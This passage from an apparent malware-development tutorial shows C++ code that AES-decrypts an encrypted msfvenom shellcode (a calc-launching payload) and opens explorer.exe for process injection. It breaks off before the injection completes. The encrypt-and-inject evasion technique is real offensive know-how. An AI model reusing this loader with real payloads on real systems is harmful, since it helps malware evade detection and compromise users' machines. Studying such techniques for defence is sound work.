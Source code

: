 The following shows the output of the above code and the AES-encrypted shellcode.

[![AES-encrypted Shellcode](/static/img/2021-12-15-lazy-maldev/encrypted-shellcode.png)](/static/img/2021-12-15-lazy-maldev/encrypted-shellcode.png)

To use it, simply change the contents of `shellcode` parameter using the above output, and then add the decryption code. The following shows the updated code:

```cpp
#include <Windows.h>
#include "include/aes.hpp"

int main(int argc, char* argv[])
{
	// PID of explorer.exe
	DWORD pid = 5284;

	// msfvenom -p windows/x64/exec CMD=calc EXITFUNC=thread -f c 
	unsigned char shellcode[] = "\x9c\xad\x1d\x5b\x52\x35\xdf\x9e\x15\xc3\xa4\x94\xb0\xf6\xd5\x1a\x14\x82\x9b\xc2\xc5\x40\x9e\x03\x45\xdf\x0d\x85\xfc\xff\xc2\xf7\x37\x84\x4b\xa1\x5f\x07\xa3\xf5\xd5\xe3\x54\xe4\x33\x84\x24\xf9\xaf\xbd\xc1\x53\xc9\x87\x4c\xc2\x12\xc7\x24\x6c\x22\xe9\x41\xb4\x47\x9c\xfa\x4c\x20\x8f\x57\x17\x29\x00\x10\x40\x83\xff\xc8\xfe\xa5\x87\x1f\xfd\xec\x30\x72\x07\x71\x59\xf8\x05\xda\x49\x12\xdf\x0a\xc5\xb8\x65\x99\x65\xfa\x5f\xc4\xc3\x8b\x40\x1e\xbe\xf1\x55\xde\x4f\x3a\x65\x2f\x14\xcc\x29\x9d\x7d\x17\xd0\x55\x99\x9e\xc3\x0d\xd7\xbb\xa3\x00\x34\x79\x32\xbe\x16\x66\xf6\xa4\xbc\xda\x40\x06\x7b\x8d\x56\x79\x6b\x21\x79\xd5\xf9\x55\x52\xe2\xd5\x8c\x34\xfd\x1c\x26\xc2\xf5\xd4\x6b\xca\xc3\x74\x91\x9d\xe4\xa2\xf4\x71\x42\x90\x2c\x6a\x11\x66\xf8\x56\x8f\x3c\x26\xa4\x27\x89\x6f\xc2\x02\x48\x53\xed\x08\x32\xa6\x48\x0f\x9a\x39\x0e\x5d\x38\xb4\xa2\x30\x6d\x27\x94\x80\x8c\x06\xa8\x86\x5f\x0b\xda\x44\x83\x51\x55\xfc\xb9\xe2\xcb\xbc\x95\xc8\xd6\x18\xd7\x1b\x04\x3d\xfb\x53\x9b\x57\xa8\xb2\xab\xe7\x27\x3b\xd2\xcb\x53\x20\x11\xcc\x5f\xaf\x31\xcf\xba\x83\xd7\xc7\xa8\xf7\x0c\x78\x6d\x7f\x46\x99\xd7\x33\x23";
	SIZE_T shellcodeSize = sizeof(shellcode);

	unsigned char key[] = "Captain.MeeloIsTheSuperSecretKey";
	unsigned char iv[] = "\x9d\x02\x35\x3b\xa3\x4b\xec\x26\x13\x88\x58\x51\x11\x47\xa5\x98";

	struct AES_ctx ctx;

	AES_init_ctx_iv(&ctx, key, iv);
	AES_CBC_decrypt_buffer(&ctx, shellcode, shellcodeSize);

	HANDLE hProcess;
	hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);

```